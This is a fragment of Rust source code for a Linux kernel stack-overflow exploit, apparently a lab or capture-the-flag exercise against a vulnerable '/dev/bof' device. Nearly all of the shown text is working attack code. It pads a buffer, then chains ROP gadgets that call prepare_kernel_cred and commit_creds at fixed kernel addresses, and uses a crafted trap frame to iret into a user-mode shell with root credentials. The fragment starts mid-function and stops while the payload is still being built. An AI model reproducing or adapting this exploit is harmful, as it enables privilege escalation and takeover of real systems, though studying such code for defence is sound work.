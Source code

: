 ```Rust
    unsafe {
        asm!("pushf",
            "pop {eflags:e}",
            eflags = out(reg) eflags);
    }
    eflags
}

fn get_esp() -> u32 {
    let mut esp: u32;
    unsafe {
        asm!("push esp",
            "pop {esp:e}",
            esp = out(reg) esp);
    }
    esp
}

fn get_ss() -> u32 {
    let mut ss: u32;
    unsafe {
        asm!("push ss",
            "pop {ss:e}",
            ss = out(reg) ss);
    }
    ss
}

fn main() {

    let mut f = match OpenOptions::new()
        .read(true)
        .write(true)
        .open("/dev/bof") {
            Ok(file) => file,
            Err(err) => panic!("Error: {}", err),
        };

    let commit_creds_ea: u32 = 0xc1070e80;
    let prepare_kernel_cred_ea: u32 = 0xc10711f0;

    let g_pop_eax_ea: u32 = 0xc1371479; // pop eax,edx,ebx,esi,edi,ebp
    let g_iret_ea: u32 = 0xC101F504;

    let mut payload = b"A".repeat(40);
    payload.extend_from_slice(g_pop_eax_ea.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(0_u32.to_le_bytes().as_ref());
    payload.extend_from_slice(prepare_kernel_cred_ea.to_le_bytes().as_ref());
    payload.extend_from_slice(commit_creds_ea.to_le_bytes().as_ref());
    payload.extend_from_slice(g_iret_ea.to_le_bytes().as_ref());
    let tf = TrapFrame {
        eip: spawn_shell as *const () as u32,
        cs: get_cs(),
        eflags: get_eflags(),
        esp: get_esp(),
        ss:get_ss() 
    };
    payload.extend_from_slice(tf.to_bytes().as_ref());
```